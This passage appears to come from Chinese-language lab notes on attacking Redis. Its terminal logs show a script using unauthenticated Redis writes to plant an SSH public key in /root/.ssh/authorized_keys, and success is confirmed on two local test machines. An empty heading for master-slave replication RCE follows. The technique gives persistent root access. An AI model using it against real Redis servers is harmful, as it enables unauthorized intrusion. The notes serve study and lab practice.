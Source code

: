 ```shell
[root@localhost redis]# mkdir -p /root/.ssh/
[root@localhost redis]# bash sshkey.sh 127.0.0.1 6379
OK
OK
OK
OK
OK
[root@localhost redis]# redis-cli
127.0.0.1:6379> get 1
"\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOVgEY/clVIFD7U/pbZly0jW5PJs6BV8gG6hKvQT3FjQUpMNADHy/MgjIoeBQpCLSRv5fOHSLVdxFgTe8qgX6s8wR1JlLPCgRPAfr8LbpxQcuw5zVqbA9DsYxEf+6Qry+SeZWXOB8tHWSZBMK7BX09g1y/hTEsrd1d/VoPBci8kUsuybqnaoRGz8p4YaJFl+jiI5SIcTb/mJTcyPOK0hFCDL7ylSJLXn/BaT5E8dPuZzj+Oha+k8PabEf0V22Jmt7gDL7e7Omit277liorsNARBH4LccPk9T9cOdmlxMswjEA3+Xbb6f3kgYaxEg6SHEWkSvMyt+x3NM6R76q5H8Nx xiaopo@fht\n\n\n"
127.0.0.1:6379> exit
[root@localhost redis]# cat /root/.ssh/authorized_keys 
REDIS0007�	redis-ver3.2.12�
redis-bits�@�ctime²�_used-memh
                                ���A�

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOVgEY/clVIFD7U/pbZly0jW5PJs6BV8gG6hKvQT3FjQUpMNADHy/MgjIoeBQpCLSRv5fOHSLVdxFgTe8qgX6s8wR1JlLPCgRPAfr8LbpxQcuw5zVqbA9DsYxEf+6Qry+SeZWXOB8tHWSZBMK7BX09g1y/hTEsrd1d/VoPBci8kUsuybqnaoRGz8p4YaJFl+jiI5SIcTb/mJTcyPOK0hFCDL7ylSJLXn/BaT5E8dPuZzj+Oha+k8PabEf0V22Jmt7gDL7e7Omit277liorsNARBH4LccPk9T9cOdmlxMswjEA3+Xbb6f3kgYaxEg6SHEWkSvMyt+x3NM6R76q5H8Nx xiaopo@fht


�B�I$��:[root@localhost redis]# 
```
在Mint下写入并连接成功，
```shell
root@mint-VirtualBox:/data/hack/C/middleware/redis# cat /root/.ssh/authorized_keys 
REDIS0008�	redis-ver4.0.9�
redis-bits�@�ctime�Z
�                   _used-mem�$
 aof-preamble����A�

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOVgEY/clVIFD7U/pbZly0jW5PJs6BV8gG6hKvQT3FjQUpMNADHy/MgjIoeBQpCLSRv5fOHSLVdxFgTe8qgX6s8wR1JlLPCgRPAfr8LbpxQcuw5zVqbA9DsYxEf+6Qry+SeZWXOB8tHWSZBMK7BX09g1y/hTEsrd1d/VoPBci8kUsuybqnaoRGz8p4YaJFl+jiI5SIcTb/mJTcyPOK0hFCDL7ylSJLXn/BaT5E8dPuZzj+Oha+k8PabEf0V22Jmt7gDL7e7Omit277liorsNARBH4LccPk9T9cOdmlxMswjEA3+Xbb6f3kgYaxEg6SHEWkSvMyt+x3NM6R76q5H8Nx xiaopo@fht


�a��/ԡOroot@mint-VirtualBox:/data/hack/C/middleware/redis#
```

## 反序列化

待补充

## 主从复制RCE

